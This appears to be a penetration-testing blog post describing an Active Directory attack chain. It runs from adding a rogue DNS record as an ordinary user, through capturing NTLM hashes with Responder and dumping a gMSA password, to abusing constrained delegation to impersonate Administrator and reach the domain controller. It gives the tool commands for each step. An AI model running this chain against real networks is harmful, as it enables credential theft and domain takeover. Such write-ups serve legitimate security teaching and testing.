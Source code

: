 [back](/)

### Evil DNS zone and Constrained Delegation in Active Directory

Quite often during the attack on the Active Directory it turns out that the DNS server is used with default settings.

Thus, it is possible to add DNS entry with the rights of a regular domain user. The fact is that by default for the Authenticated Users group there are no restrictions on creating DNS records, such through access to LDAP.

![Image](/img/evil_dns/1.png)

```
python3 dnstool.py -u 'yourdomain.ru\Tiffany.Molina' -p password --action add -r web332211.domain.ru -d attacker-ip ldap-ip
```

![Image](/img/evil_dns/2.png)

![Image](/img/evil_dns/3.png)

After successfully adding a DNS entry associated with an IP attacker, you can get domain user netNTLM hash, that will access to the added DNS name fot example by smb or http with network netNTLM authentication. Moreover, this DNS record looks reliable, from the point of view of confidence in the resource. This can be used for targeted attacks.

So, after running Responder we get netNTLMV2 hash:

![Image](/img/evil_dns/4.png)

By collecting Active Directory dump and downloading it to the Bloodhound database, it became clear that the user Ted.Graves consists in the ITSupport group.

![Image](/img/evil_dns/5.png)

TED.graves can control the service account through the Group Managed Service Accounts functionality (GMSA), while having the ability to get password or NTLM belonging to SVC_INT user.

```
python3 gMSADumper.py -u username -p password -d domain.ru
```

![Image](/img/evil_dns/6.png)

SVC_INT user has the ability to request a service ticket and impersonate it for any user. Using in this case, the S4U2SELF/S4U2Proxy mechanism can be obtained by the privileges of the domain administrator.

![Image](/img/evil_dns/7.png)

```
getST.py -spn HOST/SQL01.DOMAIN 'DOMAIN/user:password'  -hashes :NTLM-hash -impersonate Administrator
```

![Image](/img/evil_dns/8.png)

After receiving the service ticket and export it to the environment, you can use the wmiexec.py to get interactive access to domain controller


<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)